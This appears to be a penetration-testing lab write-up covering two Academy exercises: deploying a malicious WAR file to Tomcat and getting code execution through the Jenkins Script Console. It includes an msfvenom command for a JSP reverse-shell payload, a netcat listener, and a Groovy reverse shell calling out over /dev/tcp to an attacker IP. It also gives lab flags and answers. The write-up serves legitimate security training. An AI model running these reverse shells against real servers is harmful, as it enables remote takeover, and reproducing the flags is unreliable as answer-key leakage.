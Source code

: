 ```
# 1.Generate the WAR file. The payload [java/jsp_shell_reverse_tcp](https://github.com/iagox86/metasploit-framework-webexec/blob/master/modules/payloads/singles/java/jsp_shell_reverse_tcp.rb) will execute a reverse shell through a JSP file.
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backup.war

# 2.  Start a listener in your attacking machine:
nc -lnvp 4443

# 3. Upload the file backup.war in the section "WAR file to deploy". Then click on Deploy.

# Find the flag
find / -name tomcat_flag.txt 2>/dev/null

# Cat it
cat /opt/tomcat/apache-tomcat-10.0.10/webapps/tomcat_flag.txt
```

Results: t0mcat_rc3_ftw!


vHosts needed for these questions:

- `jenkins.inlanefreight.local`

**Authenticate to (ACADEMY-ATCKAPPS-APP02) with user "admin" and password "admin". Log in to the Jenkins instance at http://jenkins.inlanefreight.local:8000. Browse around and submit the version number when you are ready to move on.**

See the footer.

Results: 2.303.1


vHosts needed for these questions:

- `jenkins.inlanefreight.local`

**Attack the Jenkins target and gain remote code execution. Submit the contents of the flag.txt file in the /var/lib/jenkins3 directory**

Access to jenkins.inlanefreight.local with admin:admin. Once we have gained access to a Jenkins application, a quick way of achieving command execution on the underlying server is via the Script Console located under "Manage Jenkins" tab.

Snippet code for a reverse shell:

```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.147/1234;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
